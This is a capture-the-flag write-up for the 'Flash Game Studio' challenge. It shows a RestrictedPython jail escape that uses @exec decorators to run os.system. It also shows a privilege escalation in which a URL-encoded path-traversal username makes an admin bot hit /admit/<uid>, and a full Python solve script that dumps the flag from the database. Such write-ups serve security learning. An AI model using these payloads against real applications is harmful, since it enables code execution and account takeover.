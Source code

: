 ```yaml
---
ai_date: 2025-04-27 05:28:06
ai_summary: Exploited FlashGameHelper via __import__ and __getattr__ bypass, then escalated privileges by manipulating image URLs and using URL encoding to execute arbitrary code, ultimately reading flag from database.
ai_tags:
  - xss
  - url-encoding
  - payload-execution
created: 2025-04-19T20:17
points: 496
solves: 11
tags:
  - python
  - jail
  - csrf
title: Flash Game Studio
updated: 2025-07-14T09:46
---
```


At first glance `FlashGameHelper`  is really sus. It runs user provided code.

So I tried to exploit it first, it is protected with `RestrictedPython`, which sounds pretty secure.

It is pretty obvious that you can inject any code by using a fancy `game_name`.

My first payloads were trying to bypass the `__getitem__` and `__getattr__` ban via destructuring.

```python
ExploitGame:
    pass
g = globals()
[a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,a1,a]=dir(g)
class Dummy
```

But then my teammate @RJCyber just gave me the payload (😭 my python jail skills have deteriorated). How did I forget about decorators bruh.

```python
@exec
@lambda x: "__import__('os').system('ls')"
def a():pass
```

## role escalation

To actually activate that payload we need to make ourselves a dev.

The admin has to visit `/admit/<uid>`, but all the templates are well defined and there is basically no place to XSS or redirect.

How?

```html
<img class="portrait" src="/user/profile_pic/{{username}}" height="150px"><br>
```

I actually tried to XSS the image tag but later realised I can just make the image point to `/admit/<uid>`.

To do this my username would be `../../admit/<uid>`.

But wait... the `username` has to be passed through a route parameter, and the `..` will be normalized by flask.

```python
@app.route("/request_access/<username>")
def request_access(username):
    visit_profile(username)
    return "Admin visited your profile but probably denied you!"
```

We can solve it by url encoding our payload, a few times.

Just keep trying until it works!

```python
payload = ("../../../admit/"+uid1)
quote(payload.replace('/', '%2F').replace('.', '%2E'))
```

Ok so now let's run this.

## sequence

1. Register 2 users A and B
2. B has username `"../../../admit/" + uid_A"`
3. B requests for admin
4. Admin tries to load image and promotes user A to admin

```html
<img class="portrait" src="/user/profile_pic/../../../admit/<uid_A>" height="150px"><br>
```

Then as admin we logout-login user A, create the game and run it.

## payload

So we can run shell commands, cool, but the flag is inside a database and getting there takes a lot of effort if we use shell.

When experimenting I also discovered that lengthy payloads seems to not work at all, so base64 encoding an entire python file is not feasible.

However after some sleep-deprived grinding I finally came up with something that worked.

```python
from app import database_helper as a
open("static\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
```

This is then wrapped in the carrier shown before.

```python
E: pass
@exec
@lambda x: '\nfrom app import database_helper as a\nopen("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])\n'
def a():pass
class D
```

And we have our final payload.

> Note that running a game requires you to put the name (the code) as an url parameter, I was lazy and just percent encoded everything.

## solve

```python
import random
import re
import requests
from urllib.parse import quote
target = "http://localhost:80"
# target = "http://54.163.45.44"


def encode(s):
    result = []
    for ch in s:
        utf8_bytes = ch.encode('utf-8')
        for b in utf8_bytes:
            result.append(f'%{b:02X}')
    return ''.join(result)


def reg(username):
    s = requests.Session()
    r = s.post(target+"/register", data={"username": username, "password": "www"})
    r.raise_for_status()
    r = s.post(target+"/login", data={"username": username, "password": "www"})
    r.raise_for_status()
    return s


def get_uid(s):
    r = s.get(target+"/profile")
    r.raise_for_status()
    pat = re.compile(r"your UID is ([\w-]+)")
    m = pat.search(r.text)
    return m.group(1)


u1 = "kumo"+str(random.randint(0, 1000000))
s1 = reg(u1)
uid1 = get_uid(s1)
payload = ("../../../admit/"+uid1)
print(payload)
s2 = reg(payload)
print(f"uid1: {uid1}")

print(s2.get(target+"/request_access/"+quote(payload.replace('/', '%2F').replace('.', '%2E'))).url)
s1.get(target+"/logout")
s1 = reg(u1)

code = '''
from app import database_helper as a
open("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
'''
code = """E: pass
@exec
@lambda x: """+repr(code)+"""
def a():pass
class D""".replace('/', '\\x2F').replace('&', '\\x26')

print(s1.get(target+"/dev").status_code)
s1.post(target+"/create_game", data={
    "game_name": code,
    "game_desc": "test",
}).raise_for_status()
print(s1.get(target+"/game/"+u1+"/"+encode(code)+"/test").text)
print(s1.get(target+"/static/flag.txt").text)
```

```flag
UMASS{CR0SS_th3_fl4sH_g4m3_t0_1nj3ct_Pyth0n!1!!11}
```